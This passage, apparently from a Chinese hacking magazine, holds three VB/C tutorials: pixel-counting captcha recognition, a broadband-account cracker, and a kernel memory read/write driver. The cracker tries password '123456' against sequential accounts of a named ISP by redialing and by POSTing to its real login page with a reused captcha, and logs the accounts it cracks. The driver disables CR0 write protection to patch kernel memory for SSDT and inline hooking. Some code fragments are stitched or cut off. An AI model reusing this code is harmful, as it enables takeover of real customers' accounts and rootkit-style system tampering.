程序窗体的基本布局如图 2 所示。窗体中的控件有：

- 一个 PictureBox（用于显示下载的验证码图片）
- 两个命令按钮
- 一个 Internet Transfer 控件（用于下载图片验证码）
- 一个 TextBox（用于显示模拟图片的文本）
图 2 窗体的基本布局

将 TextBox 的 MultiLine 属性设置为 True，可多行显示文本，再将 ScrollBars 属性设置为 3-Both，这样就有横向和纵向的滚动条。之后为“下载图片”按钮的单击事件添加如下代码：

```vb
Private Sub Command1_Click()
'PictureBox 可以自动调整大小以适应图片
Picture1.AutoSize = True
'循环直到完成上一个请求
While Inet1.StillExecuting
    DoEvents
Wend
'用于保存图片二进制数据的数组
Dim picByte() As Byte
picByte = Inet1.OpenURL("http://...", icByteArray)
While Inet1.StillExecuting
    DoEvents
Wend
'将图片数据写入 test.gif 文件
Open App.Path & "\test.gif" For Binary As #1
Put #1, , picByte
Close #1
'将 test.gif 文件载入到 PictureBox 中
Picture1.Picture = LoadPicture(App.Path & "\test.gif")
End Sub
```

经过测试，发现仅在横向第 5～34 像素和纵向第 3～11 像素的区域为文字区域，因此，在代码中我们仅处理这些区域的像素。

为“识别验证码”按钮单击事件添加如下代码：

```vb
Private Sub Command2_Click()
'设置 TextBox 中字体的大小
Text1.Font.Size = 10
Text1.Text = ""
For i = 3 To 11      '高度
For j = 5 To 34      '宽度
'如果 P(i,j) 这个点为黑色，则数组元素 P(i,j) 为 False，若为白色，则为 True
P(i,j) = IIf(Picture1.Point(j, i) <> 0, True, False)
'有用像素，显示白色方框；无用像素，显示黑色方框
Text1 = Text1 & IIf(Picture1.Point(j, i) <> 0, "□", "■")
Next j
'Text 中显示换行
Text1 = Text1 & vbCrLf
Next i
'在标题中显示识别结果
Me.Caption = "验证码为:" & Very(5,11) & Very(13,19) & Very(21,27) & Very(29,34)
End Sub
```

上面我们使用了 Very 函数来返回识别的验证码，这里看看 Very 函数中的内容。新建一个标准模块，在模块中写入如下代码：

```vb
'声明一个二维数组，保存该点是否为有用像素，为 Boolean 类型
Public P(3 To 11, 5 To 34) As Boolean

Public Function Very(ByVal col1 As Integer, ByVal col2 As Integer) As Integer
    Dim i As Integer
    Dim j As Integer
    Dim YesCount As Integer
    Dim YesCount2 As Integer

    '遍历第3行中的点，统计有多少个有用像素
    For i = col1 To col2
        If P(3, i) = True Then YesCount = YesCount + 1
    Next

    '对第三行中的有用像素进行筛选
    Select Case YesCount
        Case 6
            Very = 7
            Exit Function
        Case 1
            Very = 4
            Exit Function
        Case 5
            Very = 5
            Exit Function
        Case 2
            '继续遍历第11行中的点，统计有多少个有用像素
            For i = col1 To col2
                If P(11, i) = True Then YesCount2 = YesCount2 + 1
            Next
            Select Case YesCount2
                Case 2
                    Very = 0
            End Select
    End Select
End Function
```

```vb
Case 4
    Very = 9
Case 5
    Very = 1
End Select
'如果是4个有用像素，可能为2、3、6、8中的某个数，
'所以我们再筛选第11行的有用像素的个数
Case 4
'遍历第11行中的点，统计有多少个有用像素
For i = col1 To col2
    If P(7, i) = True Then YesCount2 = YesCount2 + 1
Next
Select Case YesCount2
    Case 1
        Very = 2
    Case 2
        Very = 3
    Case 3
        Very = 6
    Case 4
        Very = 8
End Select
End Select
End Function


```

经过这样两层筛选，我们就可以得到正确的验证码了。注意，这里是一个字符一个字符地识别的。Very(5,11) 可以识别第 5 到 11 列，也就是第 1 个字符。

以此类推，Very(13,19) 为第 2 个字符，Very(21,27) 为第 3 个字符，Very(29,34) 是第 4 个字符。

运行上面的程序，结果如图 3 所示。因为这是非常规则的简单验证码，识别率为 100%。
图 3 程序识别结果

##### 总结

简单验证码的识别可采用逐行扫描有用像素的方法。利用有用像素的个数进行筛选，得到具体是什么字符。但对于有干扰像素的图片验证码，我们还需要设计更复杂的算法去实现它。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：VB
- 关键词：编程、账号破解、ADSL

##### 验证：VB 破解宽带账号的两种思路
文/图 李劭杰

破解 ADSL 宽带账号有两种基本思路：第一种采用反复拨号的形式，不断使用新账号或密码尝试拨号，直至拨号成功；第二种则是在电信的网站上尝试登录，属于 Web 上的破解任务。

拨号方式破解速度较慢，尝试一个密码需要 1 到 3 秒（Windows XP 下约 1 秒，Windows Vista、Windows 7 下约 3 秒），而采用 Web 破解，速度则很快，个人测试的最高平均速度达到 186 个密码/秒，破解 6 位数字密码（总数 100 万）只需要一个半小时。

下面以某市高校翼讯 ADSL 账号的破解为例，使用 VB 编程实现这两种方式的破解任务。为了提高破解成功率，我采用破解弱口令“123456”而不断增加宽带账号的方式，该市的翼讯账号都是连续的，为 11 位，比如 10501015000。

##### 拨号破解程序实现

程序窗体的基本布局如图 1 所示。我们需要一个 ComboBox（读入已建立的宽带连接名称）、两个 TextBox（输入和显示 ADSL 账号和密码）、一个 ListBox（显示检测进度）、一个 Timer（控制破解进度）。

为什么还需要一个 Timer 控件呢？这是因为如果连续不断拨号，程序容易失去响应，在每次尝试完拨号以后，中间容许有 1 秒左右的中断。
图 1 程序的基本布局

在窗体的通用部分声明一个变量 Busy，用于控制破解进度；窗体载入时候，枚举系统中已建立的本地连接，添加到 ComboBox 中。

```vb
Option Explicit
Dim busy As Boolean    '程序是否正忙
Private Sub Form_Load()
    Call EnumConnections    '读取本地连接名称
End Sub


```

可以看到，EnumConnections 过程是用于读取本地连接的，而系统中本地连接被保存在注册表 HKEY_CURRENT_USER\RemoteAccess\Profile 子键下，如图 2 所示。
图 2 保存本地连接的子键

建立一个通用模块，在模块中写入 EnumConnections 过程的代码：

```vb
Public Declare Function RegOpenKey Lib "advapi32.dll" Alias "RegOpenKeyA" (...)
Public Declare Function RegEnumKey Lib "advapi32.dll" Alias "RegEnumKeyA" (...)
Public Declare Function RegCloseKey Lib "advapi32.dll" (...)
Public Const HKEY_CURRENT_USER = &H80000001
```

```vb
Public Sub EnumConnections()
    Dim RegHwnd As Long
    Dim Ret As Long
    Ret = RegOpenKey(HKEY_CURRENT_USER, "RemoteAccess\Profile", RegHwnd)
    If Ret = 0 Then
        Dim SubKeyIndex As Long, SubKeyName As String, LenSubkey As Long
        SubKeyName = Space(255)
        While RegEnumKey(RegHwnd, SubKeyIndex, SubKeyName, 255) = 0
            Form1.Combo1.AddItem Left(SubKeyName, InStr(SubKeyName, Chr(0)))
            SubKeyIndex = SubKeyIndex + 1
        Wend
        Form1.Combo1.Text = Form1.Combo1.List(0)
    End If
End Sub
```

为“开始检测”按钮的单击事件添加如下代码：

```vb
Private Sub Command1_Click()
    List1.Clear
    List1.AddItem "正在挂断当前的连接..."
    HangUpAll
    List1.AddItem "所有连接都已挂断 Success!"
    List1.AddItem ""
    busy = False
    Timer1.Enabled = True
End Sub
```

可以看到，按钮的单击事件中并没有具体的破解代码，这些都被放在了 Timer1 的 Timer 事件中。

```vb
Private Sub Timer1_Timer()
    If busy = False Then
        busy = True
        Dim temp As Integer
        List1.List(2) = "正在尝试账号" & TxtAccount
        List1.Selected(2) = True
        temp = AddConnection(Combo1.Text, "", "", TxtAccount.Text, TxtPass, "")
        If temp = 0 Then
            List1.AddItem "破解成功：" & TxtAccount & " 密码为:" & TxtPass
            List1.AddItem "已经使用该 ADSL 账号连接，请尝试访问网页"
            Open App.Path & "\破解任务.txt" For Append As #1
            Print #1, "破解成功：" & TxtAccount & " 密码为:" & TxtPass
            Close #1
            MsgBox "破解成功：" & TxtAccount & " 密码为:" & TxtPass, vbInformation, Me.Caption
            Timer1.Enabled = False
            Exit Sub
        Else
            List1.List(List1.ListCount - 1) = "尝试账号" & TxtAccount & "...密码错误"
            TxtAccount.Text = TxtAccount.Text + 1
        End If
    End If
End Sub

End If
busy = False    '程序完成操作，状态为闲置
End If
End Sub
```

上面的代码中调用了 AddConnection 过程，如果函数返回值为 0，表明拨号成功，否则拨号失败，继续尝试下一个账号。新建一个模块，在该模块中组合一些用于 ADSL 拨号的 API 函数：

```vb
Option Explicit
Public hRasConn As Long
Public Const APINULL = 0&
Public Const UNLEN = 256
Public Const DNLEN = 15
Public Const PWLEN = 256
Public Const RAS95_MaxPhoneNumber = 128
Public Const RAS95_MaxEntryName = 256
Public Const RAS95_MaxCallbackNumber = RAS95_MaxPhoneNumber

Public Type RASDIALPARAMS95
    dwSize As Long
    szEntryName(RAS95_MaxEntryName) As Byte
    szPhoneNumber(RAS95_MaxPhoneNumber) As Byte
    szCallbackNumber(RAS95_MaxCallbackNumber) As Byte
    szUserName(UNLEN) As Byte
    szPassword(PWLEN) As Byte
    szDomain(DNLEN) As Byte
End Type

Public Const NOT_SUPPORTED = 120&
Public Const RASBASEERROR = 600&
Public Const SUCCESS = 0&
Public Const ERROR_PORT_ALREADY_OPEN = (RASBASEERROR + 2)
Public Const ERROR_UNKNOWN = (RASBASEERROR + 35)
Public Const ERROR_REQUEST_TIMEOUT = (RASBASEERROR + 38)
Public Const ERROR_PASSWD_EXPIRED = (RASBASEERROR + 48)
Public Const ERROR_NO_DIALIN_PERMISSION = (RASBASEERROR + 49)
Public Const ERROR_SERVER_NOT_RESPONDING = (RASBASEERROR + 50)
Public Const ERROR_UNRECOGNIZED_RESPONSE = (RASBASEERROR + 52)
Public Const ERROR_NO_RESPONSES = (RASBASEERROR + 60)
Public Const ERROR_DEVICE_NOT_READY = (RASBASEERROR + 66)
Public Const ERROR_LINE_BUSY = (RASBASEERROR + 70)
Public Const ERROR_NO_ANSWER = (RASBASEERROR + 78)
Public Const ERROR_NO_CARRIER = (RASBASEERROR + 79)
Public Const ERROR_NO_DIALTONE = (RASBASEERROR + 80)
```

```vb
Public Const ERROR_AUTHENTICATION_FAILURE = (RASBASEERROR + 91)
Public Const ERROR_PPP_TIMEOUT = (RASBASEERROR + 118)

Public Const RAS95_MaxDeviceName = 128
Public Const RAS_MaxDeviceType = 16

Public Type RASCONN95
    dwSize As Long
    hRasConn As Long
    szEntryName(RAS95_MaxEntryName) As Byte
    szDeviceType(RAS_MaxDeviceType) As Byte
    szDeviceName(RAS95_MaxDeviceName) As Byte
End Type

Public Declare Function lstrcpy Lib "kernel32" Alias "lstrcpyA" (lpString1 As Any, ByVal lpString2 As String) As Long
Public Declare Function RasDial Lib "RasApi32.DLL" Alias "RasDialA" (...)
Public Declare Function RasHangUp Lib "RasApi32.DLL" Alias "RasHangUpA" (ByVal hRasConn As Long) As Long
Public Declare Function RasEnumConnections Lib "RasApi32.DLL" Alias "RasEnumConnectionsA" (...) As Long

Public Function AddConnection(strNewEntryName As String, strNewPhoneNumber As String, strNewCallbackNumber As String, strNewUsername As String, strNewPassword As String, strNewDomain As String) As Integer
    Dim lngRetCode As Long
    Dim lngRetLstrcpy As Long
    Dim lngRetHangUp As Long
    Dim lprasdialparams As RASDIALPARAMS95

    If GetConnections() > 0 Then
        AddConnection = lngRetCode: Exit Function
    End If

    lprasdialparams.dwSize = 1052
    lngRetLstrcpy = lstrcpy(lprasdialparams.szEntryName(0), strNewEntryName)
    lngRetLstrcpy = lstrcpy(lprasdialparams.szPhoneNumber(0), strNewPhoneNumber)
    lngRetLstrcpy = lstrcpy(lprasdialparams.szCallbackNumber(0), strNewCallbackNumber)
    lngRetLstrcpy = lstrcpy(lprasdialparams.szUserName(0), strNewUsername)
    lngRetLstrcpy = lstrcpy(lprasdialparams.szPassword(0), strNewPassword)
    lngRetLstrcpy = lstrcpy(lprasdialparams.szDomain(0), strNewDomain)

    Screen.MousePointer = vbHourglass
    hRasConn = 0
    lngRetCode = RasDial(ByVal APINULL, vbNullString, ...)
End Function
```

```vb
' ...（Ras 连接相关 VB 代码）
If lngRetCode Then
    lngRetHangUp = RasHangUp(hRasConn)
End If
AddConnection = lngRetCode
End Function

Public Function GetConnections() As Integer
    Dim lngRetCode As Long
    Dim lpcb As Long
    Dim lpcConnections As Long
    ' ...
End Function

Public Function HangUpAll() As Boolean
    Dim lngRetCode As Long
    Dim lpcb As Long
    Dim lpcConnections As Long
    ' ...
    HangUpAll = True
End Function
```

接下来，我们为“暂停破解”按钮添加如下两行代码：

```vb
Private Sub Command2_Click()
    Timer1.Enabled = False
    MsgBox "程序已停止破解，点击开始破解按钮可继续", vbInformation, Me.Caption
End Sub


```

这样一来，破解程序便编写完毕了。

经测试了 8898 个账号，破解成功 5 个，平均 1780 个账号中存在一个以“123456”为密码的账号，Windows Vista 下平均费时 89 分钟。可以看出，其效率是非常低下的，要超过一小时才能破解出一个账号。

##### Web 破解编码实现

采用反复拨号的形式破解账号，速度较慢，而且破解的时候必须将本地连接挂断，限制很大。下面将要介绍的方式为 Web 破解，迅速且准确。我们无须编写太多代码，就能实现每秒破解几十到几百个密码。

我们同样以翼讯 ADSL 为例，翼讯网站（http://yixun.sn.cn/）上的登录界面如图 3 所示。可以看到，网页上有一个英文+数字的 5 位验证码……经过抓包分析，使用 Post 方法提交出去的只有 3 个参数：account（账户）、password（密码）和 verifycode（验证码）。
我们编写的程序功能非常简单，窗体中控件的基本布局如图 4 所示。其中，有 3 个 TextBox（用于输入 ADSL 账号、密码、验证码）、一个 WebBrowser 控件（打开验证码），以及一个按钮。
因为要使用 XmlHttp 对象，所以我们新建一个标准模块，在模块中写下用于获取返回信息的 GetCode 过程。

###### 获取页面代码的 GetCode 方法

```vb
'第一个参数是设置编码方式（GB2312 或 UTF-8）
'第二个参数是地址
'第三个参数为提交的数据
Public Function GetCode(CodeBase, Url, Data)
  Dim xmlHTTP1
  Set xmlHTTP1 = CreateObject("Microsoft.XMLHTTP")
  xmlHTTP1.Open "get", Url, True
  xmlHTTP1.setRequestHeader "Content-Type", "application/x-www-form-urlencoded"
  xmlHTTP1.send Data
  While xmlHTTP1.ReadyState <> 4
    DoEvents
  Wend
  GetCode = xmlHTTP1.ResponseBody
  If CStr(GetCode) <> "" Then GetCode = BytesToBstr(GetCode, CodeBase)
  Exit Function
End Function

Public Function BytesToBstr(strBody, CodeBase)
  Dim ObjStream
  Set ObjStream = CreateObject("Adodb.Stream")
  With ObjStream
    .Type = 1
    .Mode = 3
    .Open
    .Write strBody
    .Position = 0
    .Type = 2
    .Charset = CodeBase
    BytesToBstr = .ReadText
    .Close
  End With
  Set ObjStream = Nothing
End Function
```

```vb
'如果没有接收到数据：就再次连接
If AllCode = "" Then
  LblState.Caption = "状态： 计算机已断网"
  GoTo Skip
End If

If InStr(AllCode, "用户名或密码不正确") Then
  TxtAccount.Text = TxtAccount.Text + 1
  LblState.Caption = "状态： 账户" & TxtAccount & "密码错误"
  GoTo Skip
ElseIf InStr(AllCode, "验证码错误！") Then
  LblState.Caption = "状态： 验证码输入错误!"
  MsgBox "验证码错误", vbInformation, Me.Caption
ElseIf InStr(AllCode, "中国电信A公司高校综合业务自理系统") And InStr(AllCode, "bindphone.html?uid=") Then
  Open App.Path & "\破解任务.txt" For Append As #1
  Print #1, TxtAccount.Text & "破解成功,密码是" & TxtPass
  Close #1
  LblState.Caption = "状态： 账户" & TxtAccount & "破解成功"
  TxtAccount = TxtAccount + 1
  GoTo Skip
Else
  LblState.Caption = "状态： 返回的信息不正确"
  GoTo Skip
End If
End Sub
```

这段代码使用 GoTo 语句来实现循环，不断破解新的账号。使用 GetCode 过程获取页面的返回信息。如果 GetCode 返回了空字符串，表明已断网；如果返回信息中包含了“用户名或密码不正确”，表明用户名或密码错误；若返回信息包含“中国电信A公司高校综合业务自理系统”，表明破解成功。破解成功的信息被写入程序目录下的“破解任务.txt”中，而破解并不因为成功而中断。

接着为窗体的载入事件添加一行代码，用于打开验证码 URL：

```vb
Private Sub Form_Load()
  WebBrowser1.Navigate "http://yixun.sn.cn/kaptcha.jpg"
End Sub
```

再为“开始破解”按钮添加下面的代码：

```vb
Private Sub Command1_Click()
  Dim AllCode As String
Skip:
  AllCode = GetCode("UTF-8", "http://yixun.sn.cn/bindlogin.html", "account=" & TxtAccount & "&password=" & TxtPass & "&verifycode=" & TxtVerifyCode)


```

##### 总结

比较这两种破解方式，可以明显地感觉出第二种破解方式的优越性：代码量少、破解效率高、不必断网等。

而第二例中最值得借鉴的地方，应该是使用 XmlHttp 对象来进行 Post 提交，以此突破图片验证码。当然，某些大型网站使用 XmlHttp 对象提交是无法直接突破的，例如 QQ 邮箱的破解，虽然用户并没有刷新网页，但当你再次使用同样的验证码提交时，将返回错误信息。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VB

关键词：编程、驱动、Ring3
##### Ring3 下模拟 NtSystemDebugControl

###### 实现驱动功能

文/胡文亮

从 Windows 2000 开始，在 NT 家族的 SSDT 中多出了一个不怎么起眼的 API。论调用频度，它不及绝大多数“同行”；论被关注度，也远远不及同属调试函数的 NtDebugActiveProcess，然而它在 2006 年开始被关注后，某些功能竟然还被微软报为“漏洞”，并在 Windows 2003 SP2 以后的操作系统中被废除了。它就是本文的主角：NtSystemDebugControl。

自打 VB 出道以来，就一直带着“不能搞底层”的帽子，其实 BASIC 语言的功能和 C 语言的功能是不相上下的，但是易学性显然比 C 语言高得多。在 NtSystemDebugControl 的帮助下，VB 更是无所不能，甚至能实现某些“传统观点”认为必须用驱动才能实现的功能。

首先看看 NtSystemDebugControl 的原型：

```vb
Private Declare Function NtSystemDebugControl Lib "ntdll.dll" (ByVal ControlCode As SYSDBG_COMMAND, ByVal InputBuffer As Long, ByVal InputBufferLength As Long, ByVal pOutputBuffer As Long, ByVal OutputBufferLength As Long, ByVal pReturnLength As Long) As Long
```

其中 SYSDBG_COMMAND 是一个枚举类型：

```vb
Private Enum SYSDBG_COMMAND
  SysDbgGetTraceInformation = 1
  SysDbgSetInternalBreakpoint = 2
  SysDbgSetSpecialCall = 3
  SysDbgClearSpecialCalls = 4
  SysDbgQuerySpecialCalls = 5
  SysDbgBreakPointWithStatus = 6
  SysDbgSysGetVersion = 7
  SysDbgCopyMemoryChunks_0 = 8
  ...
```

```vb
（枚举续）
SysDbgCopyMemoryChunks_1 = 9
SysDbgCopyMemoryChunks_2 = 10
SysDbgCopyMemoryChunks_3 = 11
SysDbgSysReadControlSpace = 12
SysDbgSysWriteControlSpace = 13
SysDbgSysReadIoSpace = 14
SysDbgSysWriteIoSpace = 15
SysDbgSysReadMsr = 16
SysDbgSysWriteMsr = 17
SysDbgSysReadBusData = 18
SysDbgSysWriteBusData = 19
SysDbgCheckLowMemory = 20
SysDbgEnableDebugger = 21
SysDbgDisableDebugger = 22
SysDbgGetAutoEnableOnEvent = 23
SysDbgSetAutoEnableOnEvent = 24
SysDbgGetPrintBufferSize = 25
SysDbgSetPrintBufferSize = 26
SysDbgGetIgnoreUmExceptions = 27
SysDbgSetIgnoreUmExceptions = 28
End Enum
```

从注释来看，什么读写内核内存、读写总线数据、读写端口、读写处理器相关控制块，这些功能都不是省油的灯。特别是读写内核内存，它的能量最大。因为很多操作本质上就是读写内核内存。炉子曾经公开过一份代码，让广大的编程爱好者在一段时间里用纯 VB 读写内核内存：

```vb
Public Function GetData(ByVal addr As Long) As Long
    Dim mc As MEMORY_CHUNKS
    Dim retv&, retl&
    With mc
        .Address = addr
        .Length = Len(addr)
        .pData = VarPtr(retv)
    End With
    Dim st As Long
    st = NtSystemDebugControl(SysDbgCopyMemoryChunks_0, VarPtr(mc), Len(mc), 0&, 0&, VarPtr(retl))
    GetData = retv
    If (Not NT_SUCCESS(st)) Then GetData = 0
End Function

Public Function SetData(ByVal addr As Long, ByVal data As Long) As Boolean
    Dim mc As MEMORY_CHUNKS
    Dim retv&, retl&
    With mc
        .Address = addr
        .Length = Len(addr)
        .pData = VarPtr(data)
    End With
    Dim st As Long
    st = NtSystemDebugControl(SysDbgCopyMemoryChunks_1, VarPtr(mc), Len(mc), 0&, 0&, VarPtr(retl))
    SetData = NT_SUCCESS(st)
End Function

Public Function ModifyKernelMemory(ByVal StartAddr As Long, ByVal Length As Long, ByRef lpBuffer() As Byte) As Boolean
    On Error GoTo ModifyKernelMemory_Err_Hdl
    Dim mc As MEMORY_CHUNKS
    Dim retv&, retl&
    With mc
        .Address = StartAddr
        .Length = Length
        .pData = VarPtr(lpBuffer(LBound(lpBuffer)))
    End With
    Dim st As Long
    st = NtSystemDebugControl(SysDbgCopyMemoryChunks_1, VarPtr(mc), Len(mc), 0&, 0&, VarPtr(retl))
ModifyKernelMemory_Err_Hdl:
    ModifyKernelMemory = NT_SUCCESS(st)
End Function

Public Function DumpKernelMemory(ByVal StartAddr As Long, ByVal Length As Long, ByRef lpBuffer() As Byte) As Boolean
    On Error GoTo DumpKernelMemory_Err_Hdl
    Dim mc As MEMORY_CHUNKS
    Dim retv&, retl&
    With mc
        .Address = StartAddr
        .Length = Length
        .pData = VarPtr(lpBuffer(LBound(lpBuffer)))
    End With
    Dim st As Long
    ...
```

```vb
st = NtSystemDebugControl(SysDbgCopyMemoryChunks_0, VarPtr(mc), Len(mc), 0&, 0&, VarPtr(retl))
DumpKernelMemory_Err_Hdl:
DumpKernelMemory = NT_SUCCESS(st)
End Function
```

大家可以看到，这四段代码都使用到了功能号 8 和 9。可惜好景不长，不久后微软就把这两个功能号禁了，到了 Windows 7，则只支持那些明显不会危害系统安全的功能了。

这么好用的函数被禁用，让很多只会 VB 的系统底层爱好者觉得很不爽。既然微软不肯提供，自己只好实现一个功能类似的函数（这当然是要用驱动的）并在 VB 里用了（名字暂称 MySystemDebugControl）。自己实现系统函数，基本都是首先参考 WRK；很可惜，WRK 里并没有相关的源码。接着去查 ReactOS 的源码，只看到这些：

```c
NTSYSCALLAPI NTSTATUS NTAPI NtSystemDebugControl(
    SYSDBG_COMMAND ControlCode,
    PVOID InputBuffer,
    ULONG InputBufferLength,
    PVOID OutputBuffer,
    ULONG OutputBufferLength,
    PULONG ReturnLength
)
{
    /* FIXME: TODO */
    return STATUS_SUCCESS;
}
```

既然连参考资料都没有，那就只能完全由自己来实现了。由于一个人的能力和精力都是有限的，所以我只实现 NtSystemDebugControl 的第 8 和第 9 功能号。

首先编写一个驱动，用于读写内核内存。这个驱动有三个 IOCTL，分别用于设置起始地址、读内存，以及写内存。

```c
#define IOCTL_BASE 0x800
#define TEMPLATE_CTL_CODE(i) \
    CTL_CODE(FILE_DEVICE_UNKNOWN, IOCTL_BASE+i, METHOD_BUFFERED, FILE_ANY_ACCESS)
#define IOCTL_SET_ADDRESS TEMPLATE_CTL_CODE(1)
#define IOCTL_ReadKernelMemory TEMPLATE_CTL_CODE(2)
#define IOCTL_WriteKernelMemory TEMPLATE_CTL_CODE(3)
```

不少驱动爱好者喜欢直接用 RtlCopyMemory 来操作内存数据，以为“一行搞定”，十分方便，其实这样是很不安全的（可能造成蓝屏），安全的写法应该如此：

```c
// 读内核内存：起始地址、地址长度、输出缓冲区
NTSTATUS ReadKernelMemory(PVOID Address, ULONG Size, PVOID OutBuffer)
{
    ...
}
```

```c
NTSTATUS st = STATUS_UNSUCCESSFUL;
PMDL pMdl = 0;
PVOID pAddress = 0;
if (!Address) return st;
pMdl = IoAllocateMdl(Address, Size, FALSE, FALSE, 0);
if (pMdl) {
    MmBuildMdlForNonPagedPool(pMdl);
    pAddress = MmGetSystemAddressForMdlSafe(pMdl, NormalPagePriority);
    if (pAddress) {
        __try {
            RtlCopyMemory(OutBuffer, pAddress, Size);
            st = STATUS_SUCCESS;
        } __except(EXCEPTION_EXECUTE_HANDLER) {
        }
    }
    IoFreeMdl(pMdl);
}
return st;
```

```c
if (!Address) return st;
pMdl = IoAllocateMdl(Address, Size, FALSE, FALSE, 0);
if (pMdl) {
    MmBuildMdlForNonPagedPool(pMdl);
    pAddress = MmGetSystemAddressForMdlSafe(pMdl, NormalPagePriority);
    if (pAddress) {
        __try {
            WpOffAndToDpcLevel();
            RtlCopyMemory(pAddress, InBuffer, Size);
            WpOn();
            st = STATUS_SUCCESS;
        } __except(EXCEPTION_EXECUTE_HANDLER) {
        }
    }
    IoFreeMdl(pMdl);
}
return st;
```

写内核内存则有点不同，要先提升 IRQL（中断请求级别），关闭中断，再使用 RtlCopyMemory，覆盖完数据后再打开中断，降低 IRQL。代码如下：

```c
VOID WpOffAndToDpcLevel()
{
    OldIrql = KeRaiseIrqlToDpcLevel();
    __asm {
        cli
        push eax
        mov eax, cr0
        and eax, 0FFFEFFFFh
        mov cr0, eax
        pop eax
    }
}

VOID WpOn()
{
    __asm {
        push eax
        mov eax, cr0
        or eax, 10000h
        mov cr0, eax
        pop eax
        sti
    }
    KeLowerIrql(OldIrql);
}

NTSTATUS WriteKernelMemory(PVOID Address, ULONG Size, PVOID InBuffer)
{
    NTSTATUS st = STATUS_UNSUCCESSFUL;
    PMDL pMdl = 0;
    PVOID pAddress = 0;
    ...
}
```

把这份代码编译后，在 VB 里按如下方式调用（没办法，用 VB 操作指针比较复杂）：

```vb
'读取内核数据：地址、长度、输出缓冲区指针
Public Function ReadKernelMemoryEx(ByVal Address As Long, ByVal nSize As Long, ByVal OutBuffer As Long) As Long
    With DryController
        IoControl CTL_CODE_GEN(&H801), VarPtr(Address), 4, 0, 0
        ReadKernelMemoryEx = IoControl(CTL_CODE_GEN(&H802), 0, 0, OutBuffer, nSize)
    End With
End Function

'修改内核数据：地址、长度、输入缓冲区指针
Public Function ModifyKernelMemoryEx(ByVal Address As Long, ByVal nSize As Long, ByVal InBuffer As Long) As Long
    With DryController
        IoControl CTL_CODE_GEN(IOCTL_SET_ADDRESS), VarPtr(Address), 4, 0, 0
        ModifyKernelMemoryEx = IoControl(CTL_CODE_GEN(&H803), InBuffer, nSize, 0, 0)
    End With
End Function
```

这两个函数中的参数 Address 和 nSize 都好理解，但 InBuffer 和 OutBuffer 却比较难理解。实际上，它们相当于 C 语言中 PVOID 类型的指针。

```vb
'读取内核数据：读取定长为 4 的内核块数据，相当于炉子的 GetData
Public Sub ReadKernelMemory1(ByVal Address As Long, ByRef uData As Long)
    Dim bytX(0 To 3) As Byte
    ReadKernelMemoryEx Address, 4, VarPtr(bytX(0))
    ...
End Sub
```

```vb
ByteArray2Long ulData, bytX
End Sub

' 修改内核数据：修改定长为 4 的内核内存数据，相当于炉子的 SetData
Public Sub ModifyKernelMemory1(ByVal Address As Long, ByVal ulData As Long)
    Dim bytX() As Byte
    Long2ByteArray ulData, bytX    '赋值
    ModifyKernelMemoryEx Address, 4, VarPtr(bytX(0))
End Sub

' 读取内核数据：地址、长度、返回字节数组，相当于炉子的 DumpKernelMemory
Public Sub ReadKernelMemory2(ByVal Address As Long, ByVal nSize As Long, ByRef BytBuf() As Byte)
    ReDim BytBuf(nSize - 1) As Byte
    ReadKernelMemoryEx Address, nSize, VarPtr(BytBuf(0))
End Sub

' 修改内核数据：地址、长度以及字节数组，相当于炉子的 ModifyKernelMemory
Public Sub ModifyKernelMemory2(ByVal Address As Long, ByVal nSize As Long, ByRef BytBuf() As Byte)
    ModifyKernelMemoryEx Address, nSize, VarPtr(BytBuf(0))
End Sub
```

NtSystemDebugControl 模拟实现后，就要实现本文的精髓了：在 VB 中进行内核级 Hook 与 Unhook。相对而言，Unhook 简单一点。网上流传一个用 VB 做的 SSDT 查看与恢复工具，可惜是使用 NtSystemDebugControl 读写内核的，只能在 Windows XP 上使用。于是我把关键部分的代码做了修改，使之能在所有 32 位 NT 系统上使用。以下是两个核心函数的实现：

```vb
原始版本：
Public Sub WriteSSDT()
    Dim QueryBuff As MEMORY_CHUNKS, ReturnLength As Long
    With QueryBuff
        Address = dwKiServiceTable + dwKernelBase
        pData = VarPtr(Address2(0))
        Length = dwServices * 4
        ZwSystemDebugControl SysDbgWriteVirtualMemory, VarPtr(QueryBuff), 12, 0, 0, VarPtr(ReturnLength)
    End With
End Sub

我修改的版本：
Public Sub WriteSSDT()
    ModifyKernelMemoryEx dwKiServiceTable + dwKernelBase, dwServices * 4, VarPtr(Address2(0))
End Sub

原始版本：
Public Sub ReadSSDT()
    '省略无关代码
    Dim QueryBuff As MEMORY_CHUNKS, ReturnLength As Long
    With QueryBuff
        Address = dwKernelBase + dwKiServiceTable
        pData = VarPtr(Address2(0))
        Length = dwServices * 4
    End With
    ZwSystemDebugControl SysDbgReadVirtualMemory, VarPtr(QueryBuff), 12, 0, 0, VarPtr(ReturnLength)
    '省略无关代码
End Sub

我修改的版本：
Public Sub ReadSSDT()
    '省略无关代码
    ReadKernelMemoryEx dwKernelBase + dwKiServiceTable, dwServices * 4, VarPtr(Address2(0))
    '省略无关代码
End Sub


```

图 1 是原始版本和新版本在 Windows 2003 SP2 下运行的对比。可见在 Windows 2003 SP2 下，原始版本的 VB SSDT VIEW 无法正常使用，而使用 MySystemDebugControl 的 VB SSDT VIEW 却能正常使用。
图 1

后来委托朋友在安装了 Windows 7 x86 的机器上测试，新版本照样可以正常运行。顺带提示一下怎样用 MySystemDebugControl 来恢复 Inline Hook，我们只需要按照格式“ModifyKernelMemory2 [要恢复函数的起始地址] [要恢复的长度] [原始字节信息]”来写就可以了。比如要恢复对 NtTerminateProcess 的 Call Hook，只要按照如下代码实现即可（数据是本机硬编码）：

```vb
Dim NtTerminateProcessAddress As Long, CallOffSet As Long, Ori_Byte(4) As Byte
' NtTerminateProcess 的地址
NtTerminateProcessAddress = &H805D39AA
' 被修改的 E8 偏移
CallOffSet = &H4B
' 原始字节信息
Ori_Byte(0) = &HE8
Ori_Byte(1) = &HA5
Ori_Byte(2) = &H8A
Ori_Byte(3) = &HFE
Ori_Byte(4) = &HFF
ModifyKernelMemory2 NtTerminateProcessAddress + CallOffSet, 5, Ori_Byte
```

恢复 SSDT Hook 是个体力活，大家都会。接下来我们来 Hook 一下 PspTerminateThreadByPointer，依然只使用 VB 以及这个 MySystemDebugControl。前段时间我曾写过《用 BASIC 语言实现 Ring 3 Inline Hook》，使某些读者大开眼界，但也有人对我说那个不是用 VB 写的，而是用 PowerBASIC 写的，并暗示 PowerBASIC 不算是纯 VB。

